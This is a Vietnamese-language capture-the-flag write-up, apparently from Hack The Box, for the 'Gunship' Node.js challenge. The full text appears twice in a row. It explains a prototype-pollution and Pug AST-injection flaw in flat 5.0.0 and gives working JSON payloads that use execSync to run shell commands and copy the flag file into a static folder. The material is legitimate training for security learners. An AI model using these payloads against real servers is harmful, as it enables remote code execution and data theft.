



---
tag:
    - htb
---
# Gunship

## Tóm tắt

Bài này là một bài White Box khi mà được cung cấp cả Source Code. 

Gunship là một Web Application được code bằng Nodejs có sử dụng phiên bản thư viện tồn tại lỗ hổng Prototype Pollution.  

## Walkthrough

Lướt qua ứng dụng thì có duy nhất một tính năng là tên xong trả về lời chào .\_.




Chúng ta cũng được cung cấp luôn source code.

 Có 2 endpoint trong đó API khá dài, có thể lỗi ở đây.

```javascript
const path              = require('path');
const express           = require('express');
const pug        		= require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the full name of an existing member.'
		});
	}
});

module.exports = router;
```

Bài này mình nhận ra ngay ở lúc đọc source. Sử dụng `Pug` là một template engine để compile thành html và sử dụng `flat` để `unflatten` dữ liệu. Hai thư viện này đã tồn tại lỗi ở một số phiên bản trước, 2 phiên bản này mình từng phân tích ở  [https://github.com/biennd279/pug-ast](https://github.com/biennd279/pug-ast) dựa trên bài [https://blog.p6.is/AST-Injection/](https://blog.p6.is/AST-Injection/) nên mình check luôn ở file `package.json` thì đúng vậy.

```javascript
{
	/** **/
	"dependencies": {
		"express": "^4.17.1",
		"flat": "5.0.0",
		"pug": "^3.0.0"
	}
}

```

Nên sử dụng luôn Payload mình đã từng viết. Mình đẩy qua static để lấy được folder hiện tại đỡ phải đẩy ra bên ngoài.

```javascript
{
    "artist.name":"Haigh dasea",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('ls > /app/static/pwd')"
    }
}
```



Và lấy đẩy flag qua static và lấy flag về thôi.

```bash
{
    "artist.name":"Haigh dasea",
    "__proto__.block": {
         "type": "Text", 
         "line": "process.mainModule.require('child_process').execSync('cp /app/flag0HKDx /app/static/flag')"
    }
}
```




  


# Gunship

## Tóm tắt

Bài này là một bài White Box khi mà được cung cấp cả Source Code. 

Gunship là một Web Application được code bằng Nodejs có sử dụng phiên bản thư viện tồn tại lỗ hổng Prototype Pollution.  

## Walkthrough

Lướt qua ứng dụng thì có duy nhất một tính năng là tên xong trả về lời chào .\_.


[](../../../.gitbook/assets/image%20%281%29.png)

Chúng ta cũng được cung cấp luôn source code.

 Có 2 endpoint trong đó API khá dài, có thể lỗi ở đây.

```javascript
const path              = require('path');
const express           = require('express');
const pug        		= require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the full name of an existing member.'
		});
	}
});

module.exports = router;
```

Bài này mình nhận ra ngay ở lúc đọc source. Sử dụng `Pug` là một template engine để compile thành html và sử dụng `flat` để `unflatten` dữ liệu. Hai thư viện này đã tồn tại lỗi ở một số phiên bản trước, 2 phiên bản này mình từng phân tích ở  [https://github.com/biennd279/pug-ast](https://github.com/biennd279/pug-ast) dựa trên bài [https://blog.p6.is/AST-Injection/](https://blog.p6.is/AST-Injection/) nên mình check luôn ở file `package.json` thì đúng vậy.

```javascript
{
	/** **/
	"dependencies": {
		"express": "^4.17.1",
		"flat": "5.0.0",
		"pug": "^3.0.0"
	}
}

```

Nên sử dụng luôn Payload mình đã từng viết. Mình đẩy qua static để lấy được folder hiện tại đỡ phải đẩy ra bên ngoài.

```javascript
{
    "artist.name":"Haigh dasea",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('ls > /app/static/pwd')"
    }
}
```


Và lấy đẩy flag qua static và lấy flag về thôi.

```bash
{
    "artist.name":"Haigh dasea",
    "__proto__.block": {
         "type": "Text", 
         "line": "process.mainModule.require('child_process').execSync('cp /app/flag0HKDx /app/static/flag')"
    }
}
```


  


